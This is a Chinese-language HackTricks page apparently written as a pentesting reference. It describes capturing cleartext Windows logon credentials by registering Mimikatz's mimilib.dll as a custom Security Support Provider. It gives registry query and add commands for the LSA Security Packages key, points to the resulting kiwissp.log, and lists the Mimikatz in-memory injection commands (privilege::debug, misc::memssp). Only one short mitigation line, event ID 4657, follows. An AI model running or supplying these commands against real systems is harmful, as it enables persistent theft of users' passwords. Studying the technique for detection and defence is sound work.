# Custom SSP

{{#include ../../banners/hacktricks-training.md}}

### Custom SSP

[了解什么是 SSP（安全支持提供者）这里。](../authentication-credentials-uac-and-efs/#security-support-provider-interface-sspi)\
您可以创建您自己的 **SSP** 来 **捕获** 以 **明文** 形式使用的 **凭据** 以访问机器。

#### Mimilib

您可以使用 Mimikatz 提供的 `mimilib.dll` 二进制文件。**这将把所有凭据以明文形式记录在一个文件中。**\
将 dll 放入 `C:\Windows\System32\`\
获取现有 LSA 安全包的列表：
```bash:attacker@target
PS C:\> reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u
```
将 `mimilib.dll` 添加到安全支持提供程序列表（安全包）：
```powershell
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages"
```
在重启后，所有凭据可以在 `C:\Windows\System32\kiwissp.log` 中以明文形式找到。

#### 在内存中

您还可以直接使用 Mimikatz 在内存中注入此内容（请注意，这可能有点不稳定/无法工作）：
```powershell
privilege::debug
misc::memssp
```
这不会在重启后存活。

#### 缓解措施

事件 ID 4657 - 审计创建/更改 `HKLM:\System\CurrentControlSet\Control\Lsa\SecurityPackages`

{{#include ../../banners/hacktricks-training.md}}
